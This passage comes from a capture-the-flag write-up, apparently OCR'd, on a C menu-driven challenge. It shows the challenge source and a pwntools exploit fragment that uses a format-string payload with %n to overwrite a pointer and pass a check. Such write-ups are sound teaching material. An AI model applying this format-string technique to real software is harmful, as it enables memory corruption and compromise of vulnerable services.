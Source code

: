 ```c
            p++;
    }
    return;
}

```

So it only leaves us with the solution of writing the random number on stack and then copying it from there to the age pointer.

We can copy numbers from stack using `%*offset$d`. Let's use it in our exploit.

```python

if __name__=="__main__":

    region = get_rand()
    log.info("region = " + hex(region))
    #Using format string to pass the initial check , to enter the secret_service
    payload = ('%*18$d' + '%15$n').ljust(16,'a') + p64(region)
    sa("Name: ",payload)
    sla("Age: ","123")
    sleep(1)


```

With this , we satisfy all checks and enter the secret service.

The secret service is pretty much a commonplace menu driven code with `Enroll` , `View` , `Remove` and an extra functionality which I termed as `Hack`. Later on , a feedback is requested which initialises a separate thread to do stuff.

But why so much obfuscation just to take a feedback , there's a reason for that guys, hold your horses.

```c
void secret_service()
{
    
    pthread_t t1;
    while(1)
    {
        unsigned int option = menu();
        switch(option)
        { 
            case 1: Enroll();
            break;
            case 2: View();
            break;
            case 3: Remove();
            break;
            case 4: goto Move_On;
            break;
            case 2020: Hack();
            break;
            case 5: exit(EXIT_SUCCESS);
        }
    }
    Move_On:
    puts("Do u want to leave a feedback for the service?(y/n)");
    scanf("%c",&ch);
    if(!strcmp(&ch,"y"))
    {
        pthread_create(&t1,NULL,thread_entry,NULL);
        pthread_join(t1,NULL);
    }
```